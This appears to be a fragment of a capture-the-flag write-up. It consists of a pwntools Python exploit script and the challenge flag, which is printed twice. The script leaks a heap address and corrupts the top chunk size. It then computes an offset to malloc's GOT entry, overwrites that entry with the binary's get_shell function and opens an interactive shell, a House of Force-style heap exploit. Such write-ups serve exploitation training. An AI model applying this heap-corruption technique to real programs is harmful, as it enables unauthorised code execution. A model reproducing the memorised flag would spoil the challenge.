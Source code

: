 ```python
heap = int(p.recvuntil(b':')[:-1], 16)
top = heap + 0x8 + 0x4 + 0x4
print(hex(top))
edit(0, 3, -1)
offset = exe.got.malloc - top - 0x4
print(hex(offset))
print(hex(exe.got.malloc))
add(offset, b'a')
add(0x4, p32(exe.sym.get_shell))
p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'Size: ', str(0x4))
p.interactive()

# DH{d351d8d936884dc4aaebb689e8a183b2}
```

## Flag

DH{d351d8d936884dc4aaebb689e8a183b2}






